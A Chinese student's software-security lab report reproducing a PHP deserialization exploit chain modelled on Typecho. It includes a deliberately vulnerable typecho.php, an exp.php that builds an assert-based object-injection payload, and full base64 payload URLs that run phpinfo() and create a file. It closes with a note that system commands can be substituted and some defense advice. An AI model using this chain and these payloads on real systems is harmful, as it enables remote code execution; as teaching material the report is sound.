







# **软件安全实验报告**

# **复现反序列化漏洞**

​		 姓名：郭子涵  学号：2312145  班级：信息安全、法学双学位班

------

## 实验要求

复现12.2.3中的反序列化漏洞，并执行其他的系统命令。

## 实验背景

1. **序列化：**指将对象（如程序中的数据结构、类实例等）转换为可存储或传输的格式（如JSON、XML、二进制流等）。例如，保存用户会话状态或传输数据时常用此技术。 

2. **反序列化：**将序列化后的数据还原为原始对象的过程。例如，服务器接收客户端发送的序列化数据后，需反序列化以恢复对象状态。

3. 反序列化漏洞的核心在于：**反序列化过程中，攻击者可控的恶意数据被程序信任并还原为对象**。当反序列化逻辑未对输入进行严格验证时，攻击者可构造恶意数据，触发非预期的代码执行或数据篡改。

4.  PHP魔术方法：PHP有一类特殊的方法，它们以__两个下划线开头，在特定的条件下会被调用。下面是PHP中常见的一些魔术方法实验内容：

   > **\_\_construct()，类的构造函数，创建新的对象时会被调用**
   >
   > **\_\_destruct()，类的析构函数，当对象被销毁时会被调用**
   >
   > **\_\_call()，在对象中调用一个不可访问方法时会被调用**
   >
   > **\_\_callStatic()，用静态方式中调用一个不可访问方法时调用**
   >
   > **\_\_get()，读取一个不可访问属性的值时会被调用**
   >
   > **\_\_set()，给不可访问的属性赋值时会被调用**
   >
   > **\_\_isset()，当对不可访问属性调用__**
   >
   > **\_\_isset()或empty()时调用**
   >
   > **\_\_unset()，当对不可访问属性调用unset()时被调用。**
   >
   > **\_\_sleep()，执行serialize()时，先会调用这个函数**
   >
   > **\_\_wakeup()，执行unserialize()时，先会调用这个函数**
   >
   > **\_\_toString()，类被当成字符串时的回应方法**
   >
   > **\_\_invoke()，调用函数的方式调用一个对象时的回应方法**
   >
   > **\_\_set_state()，调用var_export()导出类时，此静态方法会被调用。**
   >
   > **\_\_clone()，当对象复制完成时调用**
   >
   > **\_\_autoload()，尝试加载未定义的类**
   >
   > **\_\_debugInfo()，打印所需调试信息**

### 建立typecho.php文件

```php+HTML
/*typecho.php*/
<?php
class Typecho_Db{
public function __construct($adapterName){
$adapterName = 'Typecho_Db_Adapter_' . $adapterName;
}
}
class Typecho_Feed{
private $item;
public function __toString(){
$this->item['author']->screenName;
}
}
class Typecho_Request{
private $_params = array();
private $_filter = array();
public function __get($key)
{
return $this->get($key);
}
public function get($key, $default = NULL)
{
switch (true) {
case isset($this->_params[$key]):
$value = $this->_params[$key];
break;
default:
$value = $default;
break;
}
$value = !is_array($value) && strlen($value) > 0 ? $value : $default;
return $this->_applyFilter($value);
}
private function _applyFilter($value)
{
if ($this->_filter) {
foreach ($this->_filter as $filter) {
$value = is_array($value) ? array_map($filter, $value) :
call_user_func($filter, $value);
}
$this->_filter = array();
}
return $value;
}
}
$config = unserialize(base64_decode($_GET['__typecho_config']));
$db = new Typecho_Db($config['adapter']);
?>
```

​	通过分析代码可得到，该web应用通过==_GET[‘__typecho_config’]==从用户处获取了反序列化的对象，满足反序列化漏洞的基本条件，unserialize()的参数可控，这里是漏洞的入口点。接下来，程序实例化了类Typecho_Db，类的参数是通过反序列化得到的config。

​	在类Typecho_Db的构造函数中，进行了字符串拼接的操作，而在PHP魔术方法中，如果一个类被当做字符串处理，那么类中的__toString()方法将会被调用。全局搜索，发现类Typecho_Feed中存在__toString()方法。

​	在类Typecho_Feed的__toString()方法中，会访问类中私有变量item[‘author’]中的screenName，这里又有一个PHP反序列化的知识点，如果item[‘author’]是一个对象，并且该对象没有screenName属性，那么这个对象中的__get()，方法将会被调用，在Typecho_Request类中，正好定义了__get()方法。__

​	类Typecho_Request中的\_\__get()方法会返回get()，get()中调用了applyFilter()方法，而在\_\_applyFilter()中，使用了PHP的call_user_function()函数，其第一个参数是被调用的函数，第二个参数是被调用的函数的参数，在这里filter，value都是我们可以控制的，因此可以用来执行任意系统命令。**至此，一条完整的利用链构造成功。**

### 写出对应的利用exe.php文件

```php+HTML
/*exp.php*/
<?php
class Typecho_Feed
{
private $item;
public function __construct(){
$this->item = array(
'author' => new Typecho_Request(),
);
}
}
class Typecho_Request
{
private $_params = array();
private $_filter = array();
public function __construct(){
$this->_params['screenName'] = 'phpinfo()';
$this->_filter[0] = 'assert';
}
}
$exp = array(
'adapter' => new Typecho_Feed()
);
echo base64_encode(serialize($exp));
?>
```

上述代码中用到了PHP的assert()函数，如果该函数的参数是字符串，那么该字符串会被assert()当做PHP代码执行，这一点和PHP一句话木马常用的eval()函数有相似之处。phpinfo();便是我们执行的PHP代码，如果想要执行系统命令，将phpinfo();替换为system(‘ls’);即可，注意最后有一个分号。访问exp.php便可以获得payload，通过get请求的方式传递给typecho.php后，phpinfo()成功执行。

访问exe.php网站显示：



### 访问typecho.php时传入payload

```
http://127.0.0.1/typecho.php?__typecho_config=YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjk6InBocGluZm8oKSI7fXM6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX2ZpbHRlciI7YToxOntpOjA7czo2OiJhc3NlcnQiO319fX19
```

获得如下结果：显示当前电脑安装的php信息，说明我们呢的phpinfo()成功执行：



### 执行其他系统命令

基于上述反序列化漏洞，我们可以构造不同的 Payload 来执行 fopen(\'newfile.txt\', \'w\')命令,新建一个文件。我们把exe.php文件中代码句` $this->_params['screenName'] = 'phpinfo()'; `中的 `phpinfo()`替换为 `fopen(\'newfile.txt\', \'w\');` ，即在执行exe.php后产生一个base64编码：

> YToxOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6MTp7czoxODoiAFR5cGVjaG9fRmVlZABpdGVtIjthOjE6e3M6NjoiYXV0aG9yIjtPOjE1OiJUeXBlY2hvX1JlcXVlc3QiOjI6e3M6MjQ6IgBUeXBlY2hvX1JlcXVlc3QAX3BhcmFtcyI7YToxOntzOjEwOiJzY3JlZW5OYW1lIjtzOjI1OiJmb3BlbignbmV3ZmlsZS50eHQnLCAndycpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX0=

执行payload：界面没有显示



但是在exe.php的同目录下出现了新建的new.file.txt说明执行成功！



## 心得体会

​	在本次实验中，成功复现了PHP反序列化漏洞，并通过构造复杂对象链执行了系统命令。这不仅增强了我对PHP语言特性的理解，更让我深入掌握了反序列化漏洞的成因与利用方式。

​	PHP反序列化漏洞是一种典型的**对象注入漏洞**，本质上是攻击者利用`unserialize()`函数处理不可信数据时，构造精心设计的恶意对象，从而触发目标类中的魔术方法（如`__toString()`、`__wakeup()`、`__destruct()`等），最终造成任意代码执行或数据破坏。

​	本次实验中，我通过静态分析Typecho中的类结构，发现了`Typecho_Feed`、`Typecho_Request`等类中存在可控调用链。尤其是在`Typecho_Request::_applyFilter()`中，使用了`call_user_func()`执行数组内函数，为执行系统命令提供了可利用点。

​	我深刻体会到，**类之间的组合与调用关系非常关键**，而攻击者往往通过构造复杂对象结构，引导程序流进入敏感函数。通过本实验，我不仅学会了如何分析反序列化调用链，还掌握了如何构造Base64-encoded payload，以及如何测试payload是否成功执行。

**总结实验整体流程图**:



> **反序列化漏洞的防御也需要从多个维度考虑，例如：**
>
> 1. **禁用`unserialize()`对用户输入的直接使用**，尽可能使用`json_decode()`等更安全的数据结构解析方法；
> 2. **限制魔术方法的使用范围**，避免在核心逻辑中滥用如`__toString()`、`__destruct()`等；
> 3. **使用反序列化白名单机制**（如`allowed_classes`）；
> 4. **PHP配置加固**：关闭`assert`、限制`disable_functions`中`system`、`eval`等。

​	本次实验不仅锻炼了我在实际环境中分析和复现漏洞的能力，也进一步加深了我对面向对象语言中安全隐患的理解，是一次非常有收获的学习过程。
